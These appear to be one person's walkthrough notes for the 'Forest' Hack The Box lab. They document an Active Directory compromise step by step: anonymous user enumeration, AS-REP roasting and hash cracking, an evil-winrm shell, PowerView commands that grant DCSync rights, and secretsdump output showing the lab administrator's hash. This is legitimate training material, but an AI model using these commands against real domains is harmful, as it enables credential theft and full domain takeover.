 ## Takeaway
- `rpcclient` can be used to enumerate domain users if `guest` or `annonymous` access is granted.
	- `rpcclient -U "" -N [IP]`
- In `evil-winrm` session, if you can't run `SharpHound.ps1`, then opt for either `bloodhound.py` or `SharpHound.exe`.
## Metadata
- Login as anonymously using `rpcclient` and enumerate domain users with command `enumdomusers`.![[Pasted image 20240304122307.png]]
- Store all usernames in a file and run following command to see if any of the user is `ASPRoastable`:
	```shell
	for user in $(cat users); do impacket-GetNPUsers -dc-ip 10.10.10.161 htb.local/${user} -no-pass | grep -v Impacket; done
	```
	- The result shows that `svc-alfresco` is `ASProastable`.![[Pasted image 20240304122937.png]]
	- Run `hashcat -m 18200 svc-alfresco.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force` to obtain a pair of valid domain credential:
		- `htb.local\svc-alfresco`: s3rvice
		- ![[Pasted image 20240304124354.png]]
- Spray the obtained credential to `smb, winrm` and find the user has `winrm` access.![[Pasted image 20240304124439.png]]
# Exploitation
- Obtain a session by running `evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`.
# PrivEsc
- Within `bloodhound`, mark `svc-alfresco`as owned and run `Shortest Path from Owned Principals` to discover that through nested group membership `svc-alfresco` is part of the `ACCOUNT OPERATOR` group.![[Pasted image 20240304152150.png]]
- Run `Find Shortest Paths to Domain Admins`, one can identify that `ACCOUNT OPERATORs` group has `GenericAll` privilege against `EXCHANGE WINDOWS PERMISSIONS` group. Furthermore, the group has  `WriteDacl` privilege against the entire domain.![[Pasted image 20240304152435.png]]
- Upload and load `PowerView.ps1`, run the following:
```shell
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', $SecPassword)
Add-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS' -Members 'svc-alfresco' -Credential $Cred
Get-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS'
Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'DC=HTB,DC=LOCAL' -PrincipalIdentity 'svc-alfresco' -Rights DCSync -Verbose
```
to grant `svc-alfresco` DV-Sync rights.
- Obtain `Domain Administrator` hash by running `impacket-secretsdump htb.local/svc-alfresco:s3rvice@10.10.10.161`.
- `htb.local\Administrator`: 32693b11e6aa90eb43d32c72a07ceea6
- ![[Pasted image 20240304155945.png]]